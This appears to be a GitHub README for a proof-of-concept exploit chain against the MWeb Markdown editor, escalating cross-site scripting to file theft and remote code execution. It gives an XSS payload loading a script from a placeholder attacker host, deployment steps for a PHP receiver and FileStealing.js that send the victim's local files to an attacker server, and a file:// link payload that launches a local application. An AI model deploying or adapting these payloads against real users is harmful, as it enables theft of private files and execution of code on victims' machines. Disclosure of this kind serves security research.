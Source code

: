 # MWebXss2FileStealing&2RCE #

## The first vulnerability ##

XSS：

![xss](https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/images/xss.png)

POC：

```
<script src="//XssStage/ip.js"></script>
```


## The Second vulnerability ##

Xss2FileStealing

![file](https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/images/file.jpg)

php：https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/GetFile.php

（Deploy on the server）

jsEXP：https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/FileStealing.js

（Deploy on the server）

just like：

```
<script src="https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/FileStealing.js"></script>
```

Pay attention to modifying the acceptance address of the file（in FileStealing.js）

## The third vulnerability ##

Xss2RCE

![file](https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/images/rce.gif)

POC:

```
<script>
<a href="file:///Applications/Calculator.app" onclick="closewin();" id="alink">

<input id="btn" onclick="test()">   </input>

<script>
    document.getElementById("alink").click();
</script>
```



